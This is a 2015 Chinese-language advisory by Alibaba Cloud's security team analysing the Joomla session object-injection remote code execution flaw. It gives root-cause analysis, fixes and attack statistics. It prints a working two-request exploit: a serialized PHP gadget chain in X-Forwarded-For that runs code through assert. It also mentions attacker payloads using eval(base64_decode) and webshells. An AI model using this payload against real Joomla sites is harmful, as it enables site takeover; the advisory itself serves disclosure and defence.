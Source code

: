 # Joomla 对象注入漏洞分析报告

[ 阿里云安全](/author/阿里云安全) · 2015/12/16 16:05

**Author:阿里云安全攻防对抗团队**

近日，Joomla再曝高危0day漏洞，可进行远程命令执行，阿里云云盾昨日已上线相应的拦截规则抵御该漏洞。同时,对云托管客户已经做了电话通知和自动漏洞修复。统计数据显示，截至16日凌晨，已有数百个恶意IP尝试使用该漏洞对阿里云网站发起攻击，云盾已成功拦截上万次攻击请求，其中攻击请求数排名第一的黑客在一小时内尝试入侵超过1000个 Joomla 网站。

根据此次漏洞情况，Joomla 官方已紧急放出了3.4.6版本。joomla用户除了尽快升级至最新版本，也可采用阿里云安全团队给出的更为完善的修复方案，对网站进行加固，详情可参考：0x03漏洞修复。

# 0x00 漏洞介绍

* * *

昨日，Joomla 安全团队紧急发布了 Joomla 3.4.6 版本，修复了一个高危 0day 漏洞。该漏洞影响了 1.5 到 3.4.5的所有版本，漏洞利用无须登录，直接在前台即可执行任意PHP代码。

# 0x01 漏洞利用

* * *

将恶意代码放在 User-Agent 或 X-Forwarded-For中发送给网站，将网站返回的cookie值带入第二个请求中，即可触发漏洞。或是在第一个请求中指定cookie值，在第二次中带上同样cookie值也能触发漏洞。

请求一：

    
    
    #!bash
    GET / HTTP/1.1
    Host: 127.0.0.1
    X-Forwarded-For: }__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}ð
    Cookie: 3342514dde143a04dad958b2eb5a748a=pd4nnqlps2suk9r70189jkpdn2
    

请求二：

    
    
    #!bash
    GET / HTTP/1.1
    Host: 127.0.0.1
    Cookie: 3342514dde143a04dad958b2eb5a748a=pd4nnqlps2suk9r70189jkpdn2
    

如果执行成功，请求二的返回内容中会显示phpinfo()的执行结果。

# 0x02 漏洞分析

* * *

在`libraries/joomla/session/session.php`文件中，joomla将`HTTP_USER_AGENT`和`HTTP_X_FORWARDED_FOR`直接存入到了session中

    
    
    #!php
    ……
    // Record proxy forwarded for in the session in case we need it later
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR']))
    {
        $this->set('session.client.forwarded',$_SERVER['HTTP_X_FORWARDED_FOR']);
    ……
    // Check for clients browser
    if (in_array('fix_browser', $this->_security) && isset($_SERVER['HTTP_USER_AGENT']))
    {
            $browser = $this->get('session.client.browser');
            if ($browser === null)
            {
                $this->set('session.client.browser', $_SERVER['HTTP_USER_AGENT']);
            }
    }
    

继续跟进joomla对于session的处理方式，在 `/libraries/joomla/session/storage.php` 内`JSessionStorage` 类中，利用`session_set_save_handler`重新实现了 session 存储的read()和write()方法，从php手册中得定义看到，read()、write()方法传进和传出的参数会分别自动进行序列化和反序列化，这一部分的序列化操作由PHP内核完成：

![enter image descriptionhere](http://static.wooyun.org//drops/20151216/2015121608060684532.jpg)

继续跟入到read()和write()函数，代码位于`libraries/joomla/session/storage`目录中，从所有session存储引擎的实现代码中可以看到，joomla都没有对 session 的value进行安全处理就进行了写入操作。 默认情况下，joomla使用了数据库引擎对session 进行存储，这也是本漏洞可以成功利用的条件之一，构造exp时候，利用 Mysql的字符截断特性，最终写入到数据库中一个被破坏的不合法的反序列化对象，当这个对象被执行read()读取时候，因为截断字符的关系， PHP内核（PHP <= 5.6.13）在解析`session.client.forwarded`后面字符串时，由于长度Check不一致，导致`php_var_unserialize`提前退出，返回false，PHP在上一次`php_var_unserialize`失败的时候，会从之前的指针位置继续开始下一轮key-value尝试，在新一轮key-value尝试中，PHP内核将攻击者注入的"|"当成了分隔符，进行key-value解析，进行反序列化导致对象方法被执行。

漏洞的本质原因有两个，一个是php内核的session解析器bug导致的，另一个是mysql数据库的字符截断特性。如果使用的session存储引擎不存在Mysql这样的字符截断特性，此漏洞就无法复现。我们测试该漏洞时，将joomla配置文件`configuration.php`中的`$session_handler`配置为none，即使用文件系统存储session，发现漏洞无法成功利用。

# 0x03漏洞修复

* * *

Joomla 官方已经在昨天紧急放出了3.4.6版本。比对代码后发现，官方此次的升级补丁仅仅在`/libraries/joomla/session/session.php`中删掉了将HTTP_USER_AGENT写入SESSION变量中的代码，增加了对 HTTP_X_FORWARDED_FOR获取到IP的合法性验证，将此次公开的exp中的利用点修复掉了。但官方没有对JSessionStorage类中处理session的不安全方式进行修复，因此这个修复方式存在被绕过的可能。只要攻击者寻找到新的可控SESSION值的位置，就可用同样的构造方法触发漏洞。

下面给出更为完善的修复方案：

修改 Joomla 根目录 `configuration.php` ，把 `$session_handler`的值改为none，会将session存储引擎设为文件系统。 把 PHP 版本升到到 5.6.13 或更高的版本。

登录Joomla后台把程序升级到 3.4.6 或更高的版本。

# 0x04 威胁现状

* * *

统计数据显示，截至16日凌晨，已有数百个恶意IP尝试使用该漏洞对阿里云网站发起攻击，云盾已成功拦截上万次攻击请求，其中攻击请求数排名第一的黑客在一小时内尝试入侵超过1000个 Joomla 网站。

对攻击者使用的攻击payload分析，大部分攻击者在第一个请求中都会插入类似 `eval(base64_decode($_post[a]))`这样的代码，在第二个请求中尝试向网站根目录写入一句话木马。如果攻击成功，网站将会被攻击者完全控制。也有部分攻击者使用的是网上公开的漏洞检测payload，如`phpinfo();` 和 `md5(233333);` ，这些代码一般不会对网站造成威胁。

相关链接：

    
    
    https://www.joomla.org/announcements/release-news/5641-joomla-3-4-6-released.html
    https://blog.sucuri.net/2015/12/remote-command-execution-vulnerability-in-joomla.html 
    https://github.com/80vul/phpcodz/blob/master/research/pch-031.md
    

